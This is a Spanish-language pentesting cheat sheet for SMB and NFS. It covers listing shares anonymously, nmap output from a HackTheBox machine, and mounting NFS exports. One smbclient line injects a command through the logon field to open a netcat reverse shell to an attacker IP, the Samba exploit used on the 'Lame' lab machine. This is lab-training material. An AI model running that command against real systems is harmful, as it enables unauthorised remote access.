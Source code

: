 # SMB y NFS

Server Message Block (SMB) es un protocolo de red que permite compartir archivos, impresoras, etc, entre nodos de una red de computadoras que usan el sistema operativo Microsoft Windows. Este protocolo pertenece a la capa de aplicación en el modelo TCP/IP.
Hay muchas formas de atacar al protocolo SMB.

## Puertos

Normalmente en windows el mas significativo es el 445 aunque siempre acompañado del 139 y a veces del 135.

## Listado de recursos compartidos de forma anónima

### Con ***smbclient***
<pre>
# De forma genérica
smbclient -L 10.10.10.3 -N

# Indicando el protocolo
smbclient -L 10.10.10.3 -N --option="client min protocol=NT1"

# Indicando la ejecuión de un comando. Para ello ha de tener permisos.
# En este caso establece una SHELL reversa. Máquina Lame de HTB
smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1" -c 'logon "/=`nohup nc -e /bin/bash 10.10.14.32 443`"'
  
</pre>

### Con ***nfs***

Podemos ver en un escaneo que hay unidades nfs montadas:

<pre>
# Nmap 7.92 scan initiated Thu Jun 23 12:05:08 2022 as: nmap -sCV -p21,111,135,139,49666 -oN targeted 10.10.10.180
Nmap scan report for remote.htb (10.10.10.180)
Host is up (0.047s latency).

PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
111/tcp   open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc       Microsoft Windows RPC
</pre>

Para ver que unidades nfs hay:

<pre>
showmount -e 10.10.10.180
</pre>

Montaje de una unidad:

<pre>
mount -t nfs 10.10.10.180:/site_backups /mnt/nfs
</pre>
